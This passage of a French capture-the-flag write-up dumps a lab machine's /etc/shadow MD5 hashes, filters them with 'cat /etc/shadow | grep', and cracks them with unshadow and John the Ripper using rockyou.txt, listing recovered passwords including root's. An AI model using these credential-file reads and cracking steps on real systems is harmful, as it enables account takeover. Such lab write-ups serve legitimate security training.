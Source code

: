 ```console
pcap:!!:15854:0:99999:7:::
ntp:!!:15854:0:99999:7:::
dbus:!!:15854:0:99999:7:::
haldaemon:!!:15854:0:99999:7:::
avahi:!!:15854:0:99999:7:::
named:!!:15854:0:99999:7:::
avahi-autoipd:!!:15854:0:99999:7:::
xfs:!!:15854:0:99999:7:::
sabayon:!!:15854:0:99999:7:::
jharraway:$1$QmYUXp3e$DLWo8Hp7O.sMNWDCNL7UL/:15855:0:99999:7:::
spinkton:$1$ujqOReXE$paM9Lo2gmdHCs.B0RC89R.:15855:0:99999:7:::
sholden:$1$dEbMtdga$ycKTjwvkJ0itX8Y.ZrYE3.:15855:0:99999:7:::
bdio:$1$7t85eaCn$E/vy2KY.s6HOxqpRsstq7.:15855:0:99999:7:::
jalderman:$1$35ETxqHg$LrEitGFy/AGaQZ0zqIXO5/:15855:0:99999:7:::
gconnor:!!:15855:0:99999:7:::
sswiney:$1$XC8fNWB1$9WFwe/YvGMZWp8rhXwurf1:15855:0:99999:7:::
dhart:$1$EGSjIMa/$xDBVVtt7cS9J/svjyun3/.:15855:0:99999:7:::
gprune:$1$9nflLusE$SS2PCLD29nSKq2sk5sDHm.:15855:0:99999:7:::
hplink:$1$5GF5JAPx$3ML0suZ7BvCdXY5n4XkT81:15855:0:99999:7:::
jgrimes:$1$eLgBAWhE$svV60siCUZfjKHEdiszM.0:15855:0:99999:7:::
shunter:$1$Tt/ZdlrY$VNqE00LGIf3iEkWvKs/tD.:15855:0:99999:7:::
jingersol:$1$Q8SgQwJQ$oziDoU20KBQOCA2SiZGv81:15855:0:99999:7:::
mswanson:$1$1Stynkar$a/gk8MinwXM1fbbddautf0:15855:0:99999:7:::
jstone:$1$tITesQJm$yxQjQrgbEBgIXbzaf6PWM1:15855:0:99999:7:::
jgoldman:$1$9RY2iB2c$LlD4Q0sKNm9xte7rE7Rwe0:15855:0:99999:7:::
tmaloney:$1$hmOHBXrr$u37LFHJCaq4Y1Z33scMyr.:15855:0:99999:7:::
xbruce:$1$BaCfmLl6$7k5Et1qS.SK3Xn5nggWT/.:15855:0:99999:7:::
sloreman:$1$3pv2eOj7$RfwB4bpc4iMmEemCxlfdR0:15855:0:99999:7:::
```

NB : pour faire le tri et obtenir uniquement les comptes avec les hashs en MD5, il est possible d'utiliser ```grep``` comme ceci.

```console
[root@localhost ~]# cat /etc/shadow | grep '\$1\$' | head -n 3
root:$1$.GWA7rU/$lVPNjveio2K8Hpsuk.6N4/:15861:0:99999:7:::
jharraway:$1$QmYUXp3e$DLWo8Hp7O.sMNWDCNL7UL/:15855:0:99999:7:::
spinkton:$1$ujqOReXE$paM9Lo2gmdHCs.B0RC89R.:15855:0:99999:7:::

[root@localhost ~]# cat /etc/shadow | grep "\\\$1\\\$" | tail -n 3
tmaloney:$1$hmOHBXrr$u37LFHJCaq4Y1Z33scMyr.:15855:0:99999:7:::
xbruce:$1$BaCfmLl6$7k5Et1qS.SK3Xn5nggWT/.:15855:0:99999:7:::
sloreman:$1$3pv2eOj7$RfwB4bpc4iMmEemCxlfdR0:15855:0:99999:7:::
```

Notre dictionnaire préféré est appelé à la rescousse : encore et toujours rockyou.txt.

```console
root@blinils:~# unshadow passwdCTF8.txt shadowCTF8.txt > etccreds.db

root@blinils:~# john etccreds.db --wordlist=../dicts/rockyou.txt
Warning: detected hash type "md5crypt", but the string is also recognized as "aix-smd5"
Use the "--format=aix-smd5" option to force loading these as that type instead
Using default input encoding: UTF-8
Loaded 19 password hashes with 19 different salts (md5crypt, crypt(3) $1$ [MD5 128/128 AVX 4x3])
Press 'q' or Ctrl-C to abort, almost any other key for status
michelle         (jalderman)
passw0rd         (bdio)
football123      (spinkton)
letmein!         (jharraway)
changeme123      (mswanson)
Drag0n           (sholden)
thing1thing2     (root)
stupidpassword   (dhart)
12twelve12       (shunter)
```